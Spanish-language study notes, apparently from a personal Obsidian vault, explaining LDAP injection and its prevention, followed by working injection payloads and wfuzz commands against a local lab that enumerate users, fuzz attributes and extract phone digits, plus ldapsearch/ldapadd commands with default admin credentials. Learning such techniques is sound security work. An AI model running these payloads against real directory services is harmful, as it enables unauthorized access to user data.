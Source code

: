 -- -
Las inyecciones LDAP (Protocolo de Directorio Ligero) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.

La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Al igual que las inyecciones SQL y NoSQL, las inyecciones LDAP pueden ser muy peligrosas. Algunos ejemplos de lo que un atacante podría lograr mediante una inyección LDAP incluyen:

Acceder a información de usuarios o recursos que no debería tener acceso.
Realizar cambios no autorizados en la base de datos del servidor LDAP, como agregar o eliminar usuarios o recursos.
Realizar operaciones maliciosas en la red, como lanzar ataques de phishing o instalar software malicioso en los sistemas de la red.
Para evitar las inyecciones LDAP, las aplicaciones web que interactúan con un servidor LDAP deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor LDAP. Esto incluye la validación de la sintaxis de los campos de entrada, la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en el servidor LDAP.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades del servidor LDAP para detectar posibles inyecciones.
-- -
- user_id=o*&password=\*&login=1&submit=Submit ---> Enumeracion de posibles usuarios (Si el codigo de respuesta es un 301 significa que hay un usuario que tiene esos caracteres). 
%00 ---> comantario

- wfuzz -c --hh=550 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=\*))%00&password=\*&login=1&submit=Submit' http://localhost:8888 ---> Fuzzeo de atributos

- wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888 ---> Enumeracion del primer numero del numero de telefono relacionado con el usuario ingresado.

- wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=5FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888 ---> Enumeracion del segundo numero de telefono (y asi sucesivamente).

- user_id=omar)(mail=\*))%00&password=\*&login=1&submit=Submit ---> Inyeccion LDAP.
-- -
## Comandos de para interactuar con ldap.
- ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin' ---> Para saber cuales son los argumentos que tenemos que poner podemos usar scripts de nmap (sudo nmap --script ldap\* -p389 localhost).

- ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldiff ---> Agrega un usuario con los atributos especificados en el archivo.

## Aclaraciones:
- Cuidado al copiar y pegar comandos, hay varias \ para escapar algunas cosas propias de obsidian.